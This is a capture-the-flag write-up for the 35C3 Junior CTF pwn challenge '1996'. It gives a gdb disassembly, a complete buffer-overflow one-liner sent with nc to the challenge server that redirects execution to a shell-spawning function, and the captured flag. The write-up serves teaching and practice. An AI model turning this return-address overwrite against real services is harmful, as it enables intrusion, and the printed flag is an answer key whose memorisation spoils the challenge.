 # 35C3 Junior CTF – 1996

* **Category:** Pwn
* **Points:** variable

## Challenge

> It's 1996 all over again!
>
> nc 35.207.132.47 22227

## Solution

The challenge involves a simple *buffer overflow* vulnerability. The objective is to change the return address of `getenv` function in order to hijack the flow to `spawn_shell` function.

```
gdb -q ./1996

(gdb) disass spawn_shell
Dump of assembler code for function _Z11spawn_shellv:
   0x0000000000400897 <+0>:	push   %rbp
   0x0000000000400898 <+1>:	mov    %rsp,%rbp
   0x000000000040089b <+4>:	sub    $0x10,%rsp
   0x000000000040089f <+8>:	lea    0x1b3(%rip),%rax        # 0x400a59
   0x00000000004008a6 <+15>:	mov    %rax,-0x10(%rbp)
   0x00000000004008aa <+19>:	movq   $0x0,-0x8(%rbp)
   0x00000000004008b2 <+27>:	lea    -0x10(%rbp),%rax
   0x00000000004008b6 <+31>:	mov    $0x0,%edx
   0x00000000004008bb <+36>:	mov    %rax,%rsi
   0x00000000004008be <+39>:	lea    0x194(%rip),%rdi        # 0x400a59
   0x00000000004008c5 <+46>:	callq  0x4007a0 <execve@plt>
   0x00000000004008ca <+51>:	nop
   0x00000000004008cb <+52>:	leaveq 
   0x00000000004008cc <+53>:	retq   
End of assembler dump.
```

The `spawn_shell` method will be loaded at `0x0000000000400897`.

To exploit the binary, you need to send at least 1024 characters (i.e. the `buf` size). After some analysis, the following exploit can be used to overwrite the return address.

```
(python -c 'print "A"*1048 + "\x97\x08\x40\x00\x00\x00\x00\x00"' ; cat ) | nc 35.207.132.47 22227
```

At this point, you will have a shell.

The `ls` command will reveal a `flag.txt` file.

The `cat flag.txt` command will reveal the flag.

```
35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14
```